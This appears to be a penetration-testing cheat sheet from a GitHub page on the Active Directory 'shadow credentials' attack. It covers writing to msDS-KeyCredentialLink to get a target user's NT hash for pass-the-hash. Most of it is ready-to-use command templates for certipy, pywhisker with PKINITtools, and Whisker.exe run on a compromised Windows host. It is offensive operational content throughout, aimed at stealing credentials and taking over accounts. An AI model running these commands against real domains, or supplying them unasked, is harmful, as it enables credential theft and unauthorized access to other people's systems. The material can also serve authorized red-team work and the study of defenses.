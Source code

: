 With shadow credentials attack you can get the NT hash from a target user. Then use it for pass-the-hash.
Requirements are rights enought to write in msDS-KeyCredentialLink and PKINIT enable in kerberos.
Check bloodhound sudgestions to know if this attack vector is available in your case.

# ABUSING SHADOW CREDENTIALS FROM OUTSIDE (from linux):
____________________________________________________


## SHADOW CREDENTIALS ATTACK (with certipy, RECOMENDED):

 * REQUIREMENTS: Get certipy (or certipy-ad in kali) AND UPDATE IT to the last version -> https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation

 You can do this attack with password or NT Hash wit pass the hash technique:
 
` < kerberos sync clock > ; certipy shadow auto -u <user you control>@<domain> -p <password> -account <target user> `

` < kerberos sync clock > ; certipy shadow auto -u <user you control>@<domain> -hashes :<your user NT hash here> -account <target user> `


## SHADOW CREDENTIALS ATTACK (old school method, with pywisker):

 * REQUIREMENTS: Get pywhisker, "gettgtpkinit.py" and "getnthash.py" from this repositoris:
     https://github.com/ShutdownRepo/pywhisker?tab=readme-ov-file
     https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
     https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py


` pywhisker -d "< domain >" -u "< user you control>" -p "< password >" --target "<target user>" --action "add" `

` < kerberos sync clock > ; gettgtpkinit.py -cert-pfx <cert from previous command>.pfx -pfx-pass <pass from previous command> <domain>/<user you control> <target user>.ccache `

` export KRB5CCNAME=<target user>.ccache `

` getnthash.py -key <key obtanined from previous command> <domain>/<target user> `



# ABUSING SHADOW CREDENTIALS FROM INSIDE (windows abuse):
______________________________________________________


## SHADOW CREDENTIALS ATTACK (with whisker.exe):

 Upload Whisker.exe to the target machine and execute:
  ` ./Whisker.exe add /target:<target user> `

 This will gieve you certificate and cert. password, then you can use it outside with gettgtpkinit.py and getnthash.py as above.


 You can also list targeted users:
  ` ./Whisker.exe list /target:<target user> `

 You can also remove targets from msDS-KeyCredentialLink
  ` ./Whisker.exe remove /target:<target user> `


